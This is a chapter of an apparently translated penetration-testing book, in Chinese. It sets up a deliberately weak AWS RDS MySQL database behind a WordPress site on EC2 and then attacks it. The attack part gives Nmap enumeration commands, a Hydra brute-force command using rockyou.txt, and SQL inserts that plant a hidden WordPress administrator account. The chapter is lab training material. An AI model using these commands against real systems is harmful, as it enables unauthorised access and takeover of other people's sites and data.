



# 第十三章：渗透测试和保护 AWS RDS

AWS 关系数据库服务（RDS）通常托管与特定应用程序相关的最关键和敏感的数据。因此，有必要专注于识别暴露的 AWS RDS 实例以枚举访问，以及随后存储在数据库实例中的数据。本章重点介绍了在安全和不安全的方式下设置示例 RDS 实例并将其连接到 WordPress 实例的过程。除此之外，我们还将专注于获取对暴露数据库的访问权限，以及从该数据库中识别和提取敏感数据。

在本章中，我们将涵盖以下主题：

+   设置 RDS 实例并将其连接到 EC2 实例

+   使用 Nmap 识别和枚举暴露的 RDS 实例

+   从易受攻击的 RDS 实例中利用和提取数据

# 技术要求

本章将使用以下工具：

+   WordPress

+   Nmap

+   Hydra

# 设置一个易受攻击的 RDS 实例

我们将首先创建一个简单的 RDS 实例，然后将其连接到 EC2 机器：

1.  在服务菜单中，转到 Amazon RDS：


1.  点击“创建数据库”。对于本教程，我们将使用 MySQL；选择 MySQL，并点击“下一步”：


1.  由于这只是一个教程，我们将使用 Dev/Test – MySQL 选项。这是一个免费的层，因此不会收费。选择 Dev/Test – MySQL 并继续点击“下一步”：


1.  在下一页上，点击“仅启用符合 RDS 免费使用层条件的选项”。然后在 DB 实例类中选择 db.t2.micro 实例：



1.  填写以下截图中显示的细节，如 DB 名称、主用户名和主密码。对于本教程，我们将设置数据库易受暴力攻击；我们将其命名为`vulndb`，并将用户名和密码设置为`admin`和`password`：



1.  在下一页上，将公开访问设置为“是”；其他一切保持不变。最后，点击“创建数据库”。

您的 DB 实例将很快创建。默认情况下，DB 实例将不对任何公共 IP 地址可访问。要更改此设置，请打开 RDS 实例的安全组，并允许从任何地方的端口`3306`上的传入连接。

1.  现在，我们将为我们的 WordPress 网站创建一个数据库。从终端连接到 RDS 实例：

```
mysql -h <<RDS Instance name>> -P 3306 -u admin -p
```

1.  在 MySQL shell 中，键入以下命令以创建新数据库：

```
CREATE DATABASE newblog;
GRANT ALL PRIVILEGES ON newblog.* TO 'admin'@'localhost' IDENTIFIED BY 'password';
FLUSH PRIVILEGES;
EXIT;
```

我们的数据库现在已经设置好了。在下一节中，我们将看看如何将我们新创建的数据库连接到 EC2 实例。

# 将 RDS 实例连接到 EC2 上的 WordPress

一旦我们的 RDS 实例创建完成，我们将在 EC2 实例上设置 WordPress。

对于本教程，我们将使用 Ubuntu 16.04 实例。继续，启动 Ubuntu EC2 实例。在入站规则设置中，确保允许流量到端口`80`和`443`（HTTP 和 HTTPS）：

1.  SSH 进入 Ubuntu 实例。我们现在将设置实例以能够托管 WordPress 网站。在继续之前，运行`apt update`和`apt upgrade`。

1.  在您的 EC2 机器上安装 Apache 服务器：

```
sudo apt-get install apache2 apache2-utils
```

1.  要启动 Apache 服务，可以运行以下命令：

```
sudo systemctl start apache2
```

要查看实例是否工作，可以访问`http://<<EC2 IP 地址>>`，您应该会看到 Apache 的默认页面。

1.  现在，我们将安装 PHP 和一些模块，以便它与 Web 和数据库服务器一起工作，使用以下命令：

```
sudo apt-get install php7.0 php7.0-mysql libapache2-mod-php7.0 php7.0-cli php7.0-cgi php7.0-gd  
```

1.  要测试 PHP 是否与 Web 服务器一起工作，我们需要在`/var/www/html`中创建`info.php`文件：

```
sudo nano /var/www/html/info.php
```

1.  将以下代码复制并粘贴到文件中，保存并退出：

```
<?php phpinfo(); ?>
```

完成后，打开您的 Web 浏览器，输入此地址：`http://<<EC2 IP 地址>>/info.php`。您应该能够查看以下 PHP 信息页面作为确认：


1.  接下来，我们将在我们的 EC2 机器上下载最新的 WordPress 网站：

```
wget -c http://wordpress.org/latest.tar.gz
tar -xzvf latest.tar.gz
```

1.  我们需要将从提取的文件夹中的所有 WordPress 文件移动到 Apache 默认目录：

```
sudo rsync -av wordpress/* /var/www/html/
```

1.  接下来，我们需要配置网站目录的权限，并将 WordPress 文件的所有权分配给 Web 服务器：

```
sudo chown -R www-data:www-data /var/www/html/
sudo chmod -R 755 /var/www/html/
```

现在我们将连接我们的 WordPress 网站到我们的 RDS 实例。

1.  转到`/var/www/html/`文件夹，并将`wp-config-sample.php`重命名为`wp-config.php`如下：

```
sudo mv wp-config-sample.php wp-config.php
```

1.  接下来，使用 RDS 实例的详细信息更新“MySQL 设置”部分。在上一节中，我们将数据库命名为`newblog`；因此，我们将在这里使用相同的名称：

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', <<database_name_here>>); /** MySQL database username */ define('DB_USER', <<username_here>>); /** MySQL database password */ define('DB_PASSWORD', <<password_here>>); /** MySQL hostname */ define('DB_HOST', <<RDS IP Address>>); /** Database Charset to use in creating database tables. */ define('DB_CHARSET', 'utf8'); /** The Database Collate type. Don't change this if in doubt. */ define('DB_COLLATE', '');
```

1.  保存文件，然后重新启动 Apache 服务器：

```
sudo systemctl restart apache2.service
```

1.  打开您的 Web 浏览器，然后输入`http://<<EC2 IP 地址>>/index.php`服务器地址以获取欢迎页面：


1.  选择您喜欢的语言，然后点击继续。最后，点击“让我们开始”！

1.  填写所有请求的信息，然后设置您的用户名和密码。最后，点击安装 WordPress。

1.  完成后，您可以使用用户名和密码登录 WordPress 安装：



我们的 WordPress 目标已经设定好。但是，我们将 RDS 实例留给整个互联网访问。这是一个易受攻击的配置。

在下一节中，我们将看到如何发现这样的易受攻击的 RDS 实例。

# 使用 Nmap 识别和枚举暴露的 RDS 实例

还记得我们将 RDS 实例设置为公开访问吗？现在是时候识别这些公共 RDS 实例并利用它们了。

在这种情况下，我们已经知道了我们的 RDS 实例的主机名，这使得对我们来说稍微容易一些。我们将从在我们的实例上运行`nmap`扫描开始，以确定哪些端口是打开的：

1.  SSH 进入您的 Kali 机器，并发出以下命令：

```
sudo nmap -sS -v -Pn <<RDS Instance>>
```

我们可以看到端口`3306`是打开的，并且正在监听任何传入的连接：


1.  让我们找出端口`3306`上运行的服务：

```
sudo nmap -sS -A -vv -Pn -sV -p 3306 <<RDS Instance>>
```


1.  所以，这是一个 MySQL 服务。让我们使用**Nmap 脚本** **引擎**（**NSE**）脚本找出有关 MySQL 服务的更多信息：

```
sudo nmap -sS -A -vv -Pn -sV -p 3306 --script=mysql-info,mysql-enum <<RDS Instance>>
```

1.  出现了相当多的信息，特别是一组有效的用户名，比如`admin`。这在我们的下一节中将至关重要：


我们已经确定了我们的目标并找到了一些信息，比如哪些端口是打开的，正在运行什么服务以及正在运行什么数据库服务器。此外，我们还找到了一组有效用户名的关键数据。在下一节中，我们将看到可以使用这些数据执行哪些攻击。

# 从易受攻击的 RDS 实例中利用和提取数据

我们现在发现了一个 RDS 实例，其 MySQL 服务正在公开监听。我们还确定了一组有效的用户名。

我们的下一步是对我们的`admin`用户进行暴力破解登录和有效密码。

在这个练习中，我们将使用 Hydra 来暴力破解 MySQL 服务并找到密码：

1.  在您的 Kali 实例上，下载用于暴力破解攻击的单词列表字典；我发现`rockyou.txt`是足够的。然后，发出以下命令：

```
hydra -l admin -P rockyou.txt <RDS IP Address> mysql
```

1.  Hydra 将使用提供的单词列表对服务进行暴力破解，并为您提供有效的密码：


一旦我们有了有效的凭据，就该连接到 MySQL 服务并为 WordPress 创建一个新用户。

为了破坏 WordPress 安装，我们将为 WordPress 创建一个新的管理员用户，然后使用这些凭据登录：

1.  再次从您的 Kali 机器连接到 MySQL 服务，使用我们发现的密码：

```
mysql -h <<RDS Instance name>> -P 3306 -u admin -p
```

为了添加一个新用户，我们将不得不在数据库的`wp_users`表中添加一行。

1.  首先，将数据库更改为 WordPress 正在使用的数据库：

```
use newblog;
```

1.  现在按照以下方式列出表格：

```
show tables;
```


我们可以看到`wp_users`表；现在是时候向其中添加一行新数据了。

1.  对于本教程，我们正在创建一个名为`newadmin`的用户，密码为`pass123`。发出以下命令：

```
INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`)
VALUES ('newadmin', MD5('pass123'), 'firstname lastname', 'email@example.com', '0');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');
```

1.  现在访问`http://<<EC2 IP 地址>>/wp-login.php`登录页面。输入新的凭据，您将以新的管理员身份登录。

# 总结

在本章中，我们学习了 RDS 实例是什么，以及如何创建 RDS 实例。然后我们在 EC2 机器上设置了一个 WordPress 网站，然后配置它使用 RDS 实例作为数据库服务器。我们看到了 RDS 实例如何变得容易受攻击。此外，我们使用 Nmap 和 Hydra 来识别和利用易受攻击的 RDS 实例。最后，我们学习了如何篡改 RDS 实例的数据以创建一个新的 WordPress 用户。

在下一章中，我们将学习如何对其他各种 AWS API 进行渗透测试。

# 进一步阅读

+   **使用 ncrack、hydra 和 medusa 进行暴力破解密码**：[`hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/`](https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/)

+   **在 Amazon RDS 中配置安全性**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)

+   **加密 Amazon RDS 资源**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html)
